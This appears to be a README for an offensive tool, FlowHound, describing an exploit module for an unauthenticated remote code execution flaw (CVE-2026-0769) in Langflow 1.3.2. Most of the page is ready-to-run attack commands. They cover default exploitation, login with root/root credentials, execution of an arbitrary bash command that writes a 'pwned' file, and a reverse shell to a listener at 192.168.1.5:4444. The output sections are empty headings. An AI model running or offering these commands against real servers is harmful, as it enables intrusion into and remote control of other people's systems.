






# CVE Description
**CVE Description:** Unauthenticated remote code execution vulnerability that allows attackers to execute arbitrary code under the context of the running Langflow instance. The issue stems from the lack of proper validation of a user-supplied string before using it to execute python code.

**Impacted Versions:** 1.3.2


# Exploit Module

## Default Mode

### Auto Login Enabled
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-0769
```



### Auto Login Disabled
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-0769 --username root --password root
```




## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-0769 --username root --password root --command "echo 'pwned' > /tmp/pwned.txt"
```

### FlowHound CLI Output


### Langflow Docker Container Filesystem Artifacts



## Reverse TCP Persistent Connection

### FlowHound CLI
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-0769 --username root --password root --reverse_shell 192.168.1.5:4444
```




### Ncat Output

